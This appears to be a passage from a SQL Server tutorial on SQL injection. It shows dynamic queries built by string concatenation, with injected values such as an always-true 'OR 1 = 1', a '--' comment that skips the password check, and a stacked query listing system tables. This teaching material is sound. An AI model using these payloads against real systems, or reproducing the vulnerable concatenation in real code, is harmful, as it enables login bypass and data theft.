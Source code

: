 You can now see that the original logic of the query is no longer intact.

```SQL
DECLARE @UserId NVARCHAR(255)
		,@SQL NVARCHAR(1000)
SET @UserId = '2 OR 1 = 1;'
SET @SQL = 'SELECT * 
			FROM Application.People AS P
			WHERE P.FullName = ' + @UserId
PRINT @SQL
EXEC(@SQL)
```

## Example 2 - UserName and Password

Now lets look at a more realistic example, you have a user name and password fields in a login window.

A quick change to the user name passed in '''Lily Code''--' and when you view the SQL Statement below you will see that the password section has been codded out. 

In SQL Server the following commands can be used to comment out lines of sections of code. <br/>
-- This will comment out everything to the right <br/>
/* everything between these two points, marked with a slash and asterisk  will be commented out */

``` SQL
DECLARE @UserName NVARCHAR(255)
        ,@Password NVARCHAR(255)
		,@SQL NVARCHAR(1000)
SET @UserName = '''Lily Code''--'
SET @Password = '''Doesnt matter'''
SET @SQL = 'SELECT * 
			FROM Application.People AS P
			WHERE P.FullName = ' + @UserName + ' AND P.Password = ' + @Password
PRINT @SQL
EXEC(@SQL)
SELECT * FROM Application.People AS P WHERE P.FullName = 'Lily Code'-- AND P.Password = 'Doesnt matter'
```
## Example 3 - Selecting additional data

Now this is where an experienced hacker can really start to attack your SQL Server, or worse start changing things without you knowing, bank account details, extracting card details etc.

In the below example as well as copying out the password section the hacker has inserted the following code "SELECT \* FROM sys.tables". This is a system table, which as you can see lists out all the tables in the current database.

Now think about what would happen if a hacker had access to your database, what information would they take, or should they just run DROP DATABASE.

```SQL
DECLARE @UserName NVARCHAR(255)
        ,@Password NVARCHAR(255)
	,@SQL NVARCHAR(1000)
SET @UserName = '''Lily Code''SELECT * FROM sys.tables AS T INNER JOIN sys.schemas AS S ON T.Schema_Id = S.Schema_Id;--'
SET @Password = '''Doesnt matter'''
SET @SQL = 'SELECT * 
			FROM Application.People AS P
			WHERE P.FullName = ' + @UserName + ' AND P.Password = ' + @Password
PRINT @SQL
EXEC(@SQL)
```
You can even use the same method to find out the version of SQL Server that is being used.
